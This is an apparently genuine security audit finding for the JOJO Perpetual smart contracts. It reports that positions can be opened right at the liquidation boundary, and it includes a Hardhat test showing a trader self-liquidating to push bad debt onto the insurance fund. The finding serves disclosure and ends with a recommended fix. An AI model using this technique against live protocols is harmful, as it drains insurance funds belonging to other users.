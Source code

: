 sinarette

high

# Too easy to incur bad debt on system

## Summary

Most of the lending protocols have a gap between the LTV and the liquidation threshold. This is necessary for ensuring a position to be fully collateralized before it reaches the liquidation price, and preventing bad debts to occur. However, the JOJO Perpetual enables the user to open a position almost right in front of the liquidation price, letting it so easy to make an insolvent position.

## Vulnerability Detail

By calling `trade`, opening positions are checked to be safe through `isAllSafe`.
```solidity
    /* Perpetual.sol */
    function trade(bytes calldata tradeData) external {
        ...
        require(IDealer(owner()).isAllSafe(traderList), "TRADER_NOT_SAFE");
    }
```

Liquidation can be initiated when `_isSafe` is false.
```solidity
    /* Liquidation.sol # getLiquidatedCreditAmount */
        // can not liquidate a safe trader
        require(!_isSafe(state, liquidatedTrader), Errors.ACCOUNT_IS_SAFE);
```

The key invariants for each are fundamentally the same: `Net Position + Credit Value > Maintenance Margin` 
```solidity
    /* Liquidation.sol # _isSafe */
    return
        netPositionValue +
            state.primaryCredit[trader] +
            SafeCast.toInt256(state.secondaryCredit[trader]) >=
        SafeCast.toInt256(maintenanceMargin);

    /* Liquidation.sol # isAllSafe */
    if (netValue < SafeCast.toInt256(maintenanceMargin)) {
        return false;
    }
```

So if a position is open with `Net Value == Maintenance Margin`, it's lying just on the border of liquidation.
In this state, if the price changes slightly from the border, the position goes underwater immediately: it's too easy to open an unsafe position.
If the price changes slightly more, since the liquidator takes the position in a discounted price, bad debt would inevitably occur, which enables the user to 'steal' the bad debt from the insurance.

## Impact

For extreme situations where market prices change rapidly, it's relatively easy to open an unsafe position.

The below test shows how an user can open a two-side position, and bring one of them underwater: the bad debt is resolved by the insurance, stolen by the user in consequence.

```javascript
    /* Using the BTC 20x perp[0] from context.ts */
    context = await basicContext();
    trader1 = context.traderList[0];
    trader2 = context.traderList[1];
    await context.dealer
      .connect(trader1)
      .deposit(
        // Minimum Margin for opening the position
        utils.parseEther("915"),
        utils.parseEther("0"),
        trader1.address
      );
    await context.dealer
      .connect(trader2)
      .deposit(
        utils.parseEther("5000"),
        utils.parseEther("5000"),
        trader2.address
      );
    orderEnv = await getDefaultOrderEnv(context.dealer);
    insurance = await context.insurance.getAddress();
    perp0 = context.perpList[0];

    await openPosition(
      trader1,
      trader2,
      "1",
      "30000",
      perp0,
      orderEnv
    );
    
    //Price drop: unsafe position
    await context.priceSourceList[0].setMarkPrice(utils.parseEther("29000"));
    
    let prev = await context.dealer.getCreditOf(insurance);
    await perp0
      .connect(trader2)
      .liquidate(
        trader2.address,
        trader1.address,
        utils.parseEther("1"),
        utils.parseEther("-30000")
      );
    let insr = await context.dealer.getCreditOf(insurance);
    
    // Bad debt occurred
    expect(insr.primaryCredit).to.be.gt(prev.primaryCredit);
```

Bad debt might be inevitable for a lending protocol, but the problem here is that it's too easy to make it intentionally.

## Code Snippet

https://github.com/sherlock-audit/2023-04-jojo/blob/main/smart-contract-EVM/contracts/lib/Liquidation.sol#L87-L104
https://github.com/sherlock-audit/2023-04-jojo/blob/main/smart-contract-EVM/contracts/lib/Liquidation.sol#L129-L192

## Tool used

Manual Review, Hardhat

## Recommendation

Implement different criteria for lending and liquidation.